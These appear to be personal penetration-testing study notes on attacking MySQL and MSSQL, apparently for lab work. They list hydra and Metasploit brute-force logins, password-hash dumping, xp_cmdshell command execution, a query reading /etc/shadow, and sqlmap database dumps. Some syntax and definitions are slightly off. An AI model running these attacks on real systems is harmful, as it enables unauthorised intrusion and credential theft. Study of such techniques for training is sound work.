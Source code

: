 # Table of Contents
1. [Overview](#Overview)
	1. Ports
	3. Usage
	4. Related Services
2. [Tools](#Tools)
	1. [Hydra](#Hydra)
	2. [Msfconsole](#msfconsole)
	3. [nmap](#nmap)
	4. [sqlmap](#sqlmap)

---
# Overview 

SQL - Simple Query Language

Relational database that is used by a lot of websites to store data.

---
## #Ports
- 3306 : mysql
- 1433 : MSSQL

## Usage
`mysql -h 192.168.34.3 -u root`
- `show database;` : shows databases
- `use books;` : go in to database
- `select count * from authors;` : show authors
- `help;` : help menu
- `select load_file("/etc/shadow");` : can see dir access by user from msfconsole mysql_writable_dirs

## Related Services
- MySql : database
- PostgreSql : database
- MariaDB : database
- MSSql : Microsoft SQL

---
# #Tools

## Hydra
dictionary attack
```bash
hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_password.txt 192.168.45.3 mysql
```

---

## msfconsole
### MYSQL
1. use auxiliary/scanner/mysql/**mysql_writable_dirs**
	1. set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt
	2. setg rhosts 192.168.34.2
	3. setg : set globaly
	4. set verbose false
	5. advanced : advanced options
	6. set password "" : null password
	7. run
3. use auxiliary/scanner/mysql/**mysql_hashdump**
	1. set username root
	2. set password "" : doesn't show in options
	3. run
	4. gives user hashes
5. use auxiliary/scanner/mysql/**mysql_login**
	1. set rhost addr
	2. set pass_file /usr/share/metasploit-framework/data/wordlists/unix_password.txt
	3. set stop_on_success true
	4. set username root
	5. run
#### Useful modules
- auxiliary/scanner/mysql/mysql_version
- auxiliary/scanner/mysql/mysql_login
- auxiliary/admin/mysql/mysql_enum
- auxiliary/admin/mysql/mysql_sql
- auxiliary/scanner/mysql/mysql_file_enum
- auxiliary/scanner/mysql/mysql_hashdump
- auxiliary/scanner/mysql/mysql_schemadump
- auxiliary/scanner/mysql/mysql_writable_dirs

---

### MSSQL
- use auxiliary/scanner/mssql/mssql_login
	- setg rhosts addr
	- set user_file /root/desktop/wordlists/common_users.txt
	- set pass_file /root/dektop/wordlists/100-common-passwords.txt
	- run
- use auxiliary/admin/mssql/mssql_enum
	- run
- use auxiliary/admin/mssql/mssql_enum_sql_logins
- use auxiliary/admin/mssql/mssql_exec
	- set cmd whoami
	- set username sa ???
- use auxiliary/admin/mssql/mssql_enum_domain_accounts
	- run

---

## nmap
### MSQL
- --script
	- mysql-empty-password
		- show users with no pass
	- mysql-info
		- shows capabilities and other info
	- mysql-users
		- --script-args="mysqluser='root',mysqlpass=''"
	- mysql-databases
		- --script-args="mysqluser='root',mysqlpass=''"
	- mysql-variables
		- --script-args="mysqluser='root',mysqlpass=''"
		- look for **datadir:** locations
	- mysql-audit
		- --script-args="mysql-audit.username='root',mysql-audit.password='', mysql-audit.filename='usr/share/nmap/nselib/data/mysql-cis.audit"
	- mysqldump-hashes
		- --script-args="username='root',password=''"
	- mysql-query
		- --script-args="query='select count(\*) from books',username='root',password=''"
### MSSQL
- --script
	- ms-sql-info
		- information
	- ms-sql-ntlm-info
		- `--script-args instance-port=1433`
		- version info
	- ms-sql-brute 
		- ` --script-args userdb=/usr/wordlists/common_users.txt,passdb=/usr/wordlists/100-common-passwords.txt`
	- ms-sql-empty-password
	- ms-query
		- `-script-args mssql.username-admin,mssql.password=anamaria,ms-sql.query.query='SELECT * FROM master..syslogins' -oN output.txt`
	- ms-sql-dump-hashes 
		- `--script-args mssql.username=admin,mssql.password=anamaria`
	- ms-sql-xp-cmdshell 
		- `--script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig"`
			- `ms-sql-xp-cmshell.cm="type c:\flag.txt"`
				- type is windows version of cat

---

## sqlmap

#### `Usage: python3 sqlmap [options]`

1. Use burpsuite to intercept a request and save it to a file
2. pass the file to sqlmap
	1. `sqlmap -r request.txt --dbms=mysql --dump`
3. sqlmap will try to find a vulnerability and then dump the database

